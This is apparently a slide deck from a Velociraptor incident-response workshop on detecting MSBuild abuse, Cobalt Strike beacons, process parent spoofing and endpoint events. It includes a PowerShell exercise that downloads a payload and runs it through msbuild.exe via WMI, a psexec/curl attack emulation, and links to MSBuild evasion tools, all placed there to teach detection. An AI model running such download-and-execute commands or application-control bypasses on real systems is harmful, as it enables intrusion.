MSBuild.exe is a signed Microsoft binary, so when it is used this way it can execute arbitrary code and bypass application control defenses that are configured to allow MSBuild.exe execution.[3] https://github.com/rapid7/metasploit-framework/blob/master/documentation../../modules/evasion/windows/applocker_evasion_msbuild.md https://github.com/threatexpress/aggressor-scripts/tree/master/wmi_msbuild https://github.com/Cn33liz/MSBuildShell https://github.com/3gstudent/msbuild-inline-task --- <!-- .slide: class="full_screen_diagram" --> ## MSBuild: Cobalt Strike teamserver Typical Cobalt Strike Lateral Movement  --- <!-- .slide: class="content" --> ## MSBuild: Detection ideas * Process Telemetry * Process chain * Command Line * Disk * Forensic evidence of execution * Prefetch * Event Logs * WMI * Service Control * Security 5145 - \\*\C$ --- <!-- .slide: class="content" --> ## MSBuild: Disk - template file <img src="../../modules/msbuild_engine/MSBuild_disk.png" style="width: 100%"/> --- <!-- .slide: class="content" --> ## MSBuild: Disk - template <img src="../../modules/msbuild_engine/MSBuild_disk-2.png" style="width: 100%"/> --- <!-- .slide: class="content" --> ## Detection ideas * Velociraptor can deploy Yara easily in combination with many other capabilities. * In this case we want to search for template files similar to previously discussed. * Can we find the Cobalt Strike payload? * Can we find other artifacts that may indicate compromise? --- <!-- .slide: class="content" --> ## Detection ideas <div class="small-font"> * Some yara based detection artifacts include: * `Generic.Detection.Yara.Glob` - cross platform glob based file search and yara * `Generic.Detection.Yara.Zip` - cross platform archive content search and yara scan * `Windows.Detection.Yara.NTFS` - Windows NTFS file search and yara * `Windows.Detection.Yara.Process` - Windows process yara scan (default is Cobalt Strike) * `Windows.Detection.Yara.PhysicalMemory` - Windows Physical memory yara scan (winpmem) * `Linux.Detection.Yara.Process` - Linux process yara --- <!-- .slide: class="content" --> ## MSBuild: Exercise description <div class="over-height"> ```yara rule MSBuild_template { meta: description = "MSBuild template. Detects MSBuild variable setup and generic template strings." strings: // Target variables in template $s1 = "byte[] key_code = new byte[" ascii $s2 = "byte[] buff = new byte[" ascii // Target Other strings $s8 = "<Code Type=\"Class\" Language=\"cs\">" ascii $s9 = "< ```powershell ## MSBuild setup # 0. If server disable prefetch so we generate prefetch artifacts if ( $(Get-CimInstance -Class CIM_OperatingSystem).Caption -like "*Server*" ) { reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters" /v EnablePrefetcher /t REG_DWORD /d 3 /f reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Prefetcher" /v MaxPrefetchFiles /t REG_DWORD /d 8192 /f Enable-MMAgent –OperationAPI -ErrorAction SilentlyContinue Start-Service Sysmain -ErrorAction SilentlyContinue } # 1. Download payload $Url = "https://present.velocidex.com/resources/kUgJI.TMP" $dest = "\\127.0.0.1\C$\Windows\Temp\kUgJI.TMP" Remove-Item -Path $dest -force -ErrorAction SilentlyContinue Invoke-WebRequest -Uri $Url -OutFile $dest -UseBasicParsing # 2. Execute payload Invoke-WmiMethod -ComputerName 127.0.0.1 -Name Create -Class Win32_PROCESS "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe C:\Windows\Temp\kUgJI.TMP /noconsolelogger" ``` --- <!-- .slide: class="content" --> ## MSBuild Exercise <div class="container small-font"> <div class="col"> * Detect payload on disk with a hunt for `Generic.Glob.Yara` * Add your created yara - [msbuild.yara](/resources/msbuild.yara) * Use file size bounds for performance 5MB - 5KB large beacon to small shellcode loader. * Target `C:\Windows\Temp` (or where you dropped the file) * Select upload file * Velociraptor enables post processing on uploaded files. * Can you extract the beacon using xor in VQL? * We will walk through this one! </div> <div class="col"> * `Generic.Glob.Yara` Parameters <img src="../../modules/msbuild_engine/MSBuild_YaraHunt.png" class="inset" /> </div> </div> --- <!-- .slide: class="content" --> ## MSBuild: Evidence of execution - prefetch <div class="small-font"> * Prefetch is a forensic artifact that is available on Windows workstations. * designed to increase performance by assisting application pre-loading * provides evidence of execution * name, execution times and execution count * Location is `C:\Windows\Prefetch\*.pf` * Format is `<Exe name>-<Hash>.pf` * Hash calculated based on folder path of executable and the command line options of certain programs (e.g., svchost.exe) * 1024 prefetch files in Win8+ (only 128 on Win7!) * Different formats across OS versions. * E.g Win10 prefetch is now compressed </div> --- <!-- .slide: class="content" --> ## Windows.Detection. PrefetchHunter <div class="container small-font"> <div class="col"> * Available on Velociraptor artifact exchange. * Allows users to hunt for accessed files by process in prefetch. * Returned rows include * accessed file * prefetch metadata * Best used to hunt for rare process execution. </div> <div class="col">  </div> </div> <img src="../../modules/msbuild_engine/MSBuild_Prefetch_results.png"/> --- <!-- .slide: class="title" --> # Memory artifacts ## Some threats are memory only --- <!-- .slide: class="content" --> ## Detect Cobalt Strike Beacon * Run the program inject.exe: * This program will inject artificial data from Cobalt Strike samples into other processes The data is not actually executable but will trigger a hit for memory scanning because it contains common Yara patterns. * https://github.com/Velocidex/injector/releases * Find a host process and provide its PID to the loader.exe --- <!-- .slide: class="content" --> ## Inject beacon into process Choose any random process to host our "beacon" sample. Sample is not actually running  --- <!-- .slide: class="content" --> ## Search for beacon in memory <div class="container small-font"> <div class="col"> * Use `Windows.Detection. Yara.Process` to search process memory for a yara signature. * Can upload process memory dumps for matching processes - these can be opened with windbg </div> <div class="col"> <img src="../../modules/msbuild_engine/ProcessYaraCollection.png" style="bottom: inherit" class="inset" /> </div> </div> --- <!-- .slide: class="full_screen_diagram" --> ## Detecting Cobalt Strike in memory  --- <!-- .slide: class="content" --> ## Decoding Cobalt Strike Config * It is very important to identify how Cobalt strike is configured when you detect it * You can block the Cobalt Strike beacon address at the network perimeter * Deploy Yara rules to identify the configuration itself. * Cobalt Strike Config is heavily obfuscated in memory * Velociraptor can parse memory structures in VQL --- <!-- .slide: class="content" --> ## Extract configuration data from memory 
<!-- .slide: class="title" --> # Monitoring events from endpoints --- <!-- .slide: class="content" --> ## What are event artifacts? Event artifacts are never-ending VQL queries that watch for events on clients and stream those events to the server.  --- <!-- .slide: class="content" --> ## Client event tables * Monitoring * Clients can be made to monitor events and forward them to the server. * Response * Clients can automatically respond to events autonomously * E.g. Kill processes, quarantine machines etc. --- <!-- .slide: class="content" --> ## Enable sysmon collection <div class="container small-font"> <div class="col"> * Client event queries are targeted by label group. * Sysmon will be installed automatically and events will be forwarded. </div> <div class="col">  </div> </div> --- <!-- .slide: class="full_screen_diagram" --> ## Viewing Sysmon events relayed to the server  --- <!-- .slide: class="content" --> ## Turning artifacts into a detection * We have previously looked at log enable/disable by examining registry keys. * Can we detect when these registry keys are changing? * The diff() plugin periodically runs a query and reports on changes. * Install the `Windows.Events.EventLogModifications` artifact --- <!-- .slide: class="full_screen_diagram" --> ## Windows.Events.EventLogModifications  --- <!-- .slide: class="full_screen_diagram" --> ## System changes relayed to server Good for slow changes  --- <!-- .slide: class="title" --> # USN Journal monitoring ## File modification monitoring at scale. --- <!-- .slide: class="content" --> ## USN Journal * We have previously seen that the USN journal is useful for recovering evidence of file modification. * Sadly in practice the USN journal rolls over fairly quickly (days!) * Wouldn't it be nice to feed the events to the server continuously? --- <!-- .slide: class="content" --> ## Windows.Detection.USN * Enable the Windows.Detection.USN artifact - target paths of interest.  --- <!-- .slide: class="full_screen_diagram" --> ## Inspect streaming results * See direct evidence of execution, tasks creation etc. 
<!-- .slide: class="title" --> # The process tracker ## Complimenting forensic analysis with monitoring... --- <!-- .slide: class="content" --> ## What is the point of Forensics? * Forensics is used to reconstruct past events from artifacts left on the system. * We are at the mercy of lucky accidents and side effects of system behavior! * When Velociraptor is running permanently on the endpoint, we can deliberately monitor the endpoint and record a more accurate timeline of events! --- <!-- .slide: class="content" --> ## Tracking processes * One of the critical questions we ask is `Where did this process come from?` * Context of where the process came from is important in establishing initial access vector! * We could collect all process execution from all endpoints, but: * This will generate a large volume of events. * Vast majority of events are not interesting. * Often we determine which process is interesting is determined by context. --- <!-- .slide: class="content" --> ## The process tracker * Velociraptor can track processes locally on the endpoint at runtime. * If the need arises, we can enrich with process execution information. * This can be done **EVEN IF THE PROCESS EXITED** --- <!-- .slide: class="full_screen_diagram" --> ## Exercise: Enable the process tracker  --- <!-- .slide: class="content" --> ## Emulate a typical attack ```powershell psexec.exe /s powershell ping.exe www.google.com curl.exe -o script.ps1 https://www.google.com/ notepad.exe ``` --- <!-- .slide: class="full_screen_diagram" --> ## Inspect the notepad process <img src="process_hacker.png" style="height: 600px"> --- <!-- .slide: class="content" --> ## Using Generic.System.Pstree  --- <!-- .slide: class="content" --> ## View process tree  --- <!-- .slide: class="content" --> ## Inspect the process call chain 
<!-- .slide: class="title" --> # Event Tracing For Windows ## Bring in the big guns! --- <!-- .slide: class="content" --> ## Event Tracing for Windows (ETW) <div class="container small-font"> <div class="col"> * Framework Built into windows * Matches Consumers to Providers * Forms the basis of the windows event logs * Traces can be either written to file or read directly by consumers. https://docs.microsoft.com/en-us/windows-hardware/test/weg/instrumenting-your-code-with-etw </div> <div class="col">  </div> </div> --- <!-- .slide: class="content" --> ## How does ETW work ? * Various software packages throughout the Operating System register themselves as an Event Provider using a unique GUID * As the software operates, various logging points within the code send "Events" to the provider. * The operating system simply matches consumers with providers * A consumer registers interest in a particular provider using the GUID * Note that if no consumers are interested ETW logging points are essentially free. --- <!-- .slide: class="content" --> ## ETW Providers * Any software can define an ETW provider * There is no consistency - some providers are detailed - some not * Discoverability is an issue! Some providers are less documented * It is sometimes possible to infer a lot of providers from their manifest files. * There are some public efforts to better document the available providers. --- <!-- .slide: class="content" --> ## View ETW providers registered <div class="small-font"> * Some information can be gathered by using the command ```powershell logman query providers ``` </div>  --- <!-- .slide: class="content" --> ## Monitoring the ETW stream * As an example, we will illustrate how to follow an ETW stream with the `watch_etw()` plugin. * VQL allows Velociraptor to attach to an ETW stream and filter, enrich or respond to events directly on the endpoint. * We can use [WEP Explorer](https://github.com/lallousx86/WinTools/tree/master/WEPExplorer) to explore interesting sources of ETW events. --- <!-- .slide: class="full_screen_diagram" --> ## WEP Explorer shows the different events available  --- <!-- .slide: class="content" --> ## Monitoring for DNS sources  --- <!-- .slide: class="content" --> ## Collecting DNS lookup from the entire fleet  --- <!-- .slide: class="content" --> ## Unique ETW sources: Process parent spoofing * ETW can provide information that is not normally available - for example reliable process parent/child relationships. * Many detections rely on parent/child relationships * The Windows CreateProcess() API allows the caller to specify the parent of a process. * This means it is trivial to spoof the parent process without any privileges - this is a very effective way to defeat parent/child based detections. --- <!-- .slide: class="full_screen_diagram" --> ## Process Spoofing * SelectMyParent.exe is a free to tool test this API but any software can use the API https://blog.didierstevens.com/2009/11/22/quickpost-selectmyparent-or-playing-with-the-windows-process-tree/  --- <!-- .slide: class="content" --> ## SelectMyParent.exe  --- <!-- .slide: class="full_screen_diagram" --> ## Can sysmon detect it? ### No unfortunately…  --- <!-- .slide: class="full_screen_diagram" --> ## Cobalt Strike process parent spoof * Parent Process Spoofing and Session Prepping with Cobalt Strike https://www.youtube.com/watch?v=DOe7WTuJ1Ac <img src="cs-training-process-spoof.png" style="height: 400px;" /> --- <!-- .slide: class="full_screen_diagram" --> ## Microsoft-Windows-Kernel-Process provider <img src="Microsoft-Windows-Kernel-Process.png" style="height: 400px;" /> --- <!-- .slide: class="full_screen_diagram" --> ## Windows.ETW.DetectProcessSpoofing https://docs.velociraptor.app/exchange/artifacts/pages/windows.etw.detectprocessspoofing/ <img src="Windows.ETW.DetectProcessSpoofing.png" style="height: 400px;" /> --- <!-- .slide: class="full_screen_diagram" --> ## Installing parent spoofing detection in Velociraptor <img src="Windows.ETW.DetectProcessSpoofing_results.png" style="height: 400px;" /> --- <!-- .slide: class="full_screen_diagram" --> ## False positives - UAC elevation <img src="Windows.ETW.DetectProcessSpoofing_fp.png" style="height: 400px;" />
<!-- .slide: class="content small-font" --> ## What did we not cover? * Velociraptor has a lot more than we were able to cover here: * Many more sources of data: Event logs, ETW, WMI eventing * Multi-Platform: Linux, MacOS, Windows, FreeBSD * Endpoint monitoring in real time: Detect and identify compromises in real time! * Automatic remediation: Apply active remediation to remove the driver and ensure all endpoints are clean. * Server automation and monitoring in real time with a python API. --- <!-- .slide: class="content" --> ## Conclusions * In this workshop we introduced Velociraptor - a powerful endpoint visibility solution, as used in a typical DFIR exercise. * We introduced VQL and gave some examples… * Searching for files, * registry keys and other endpoint state Hunting everywhere --- <!-- .slide: class="content" --> ## Conclusions We only scratched the surface of what Velociraptor can do! Check out the following links and join our community… <table class="noborder"> <tr> <td>Docs</td><td> <a href="https://docs.velociraptor.app/">https://docs.velociraptor.app/</a> </td> </tr> <tr> <td>Github</td><td> <a href="https://github.com/Velocidex/velociraptor">https://github.com/Velocidex/velociraptor</a> </td> </tr> <tr> <td>Discord</td><td> <a href="https://docs.velociraptor.app/discord/">https://docs.velociraptor.app/discord/</a> </td> </tr> <tr> <td>Mailing list</td><td> <a href="mailto:velociraptor-discuss@googlegroups.com">velociraptor-discuss@googlegroups.com</a> </td> </tr> </table>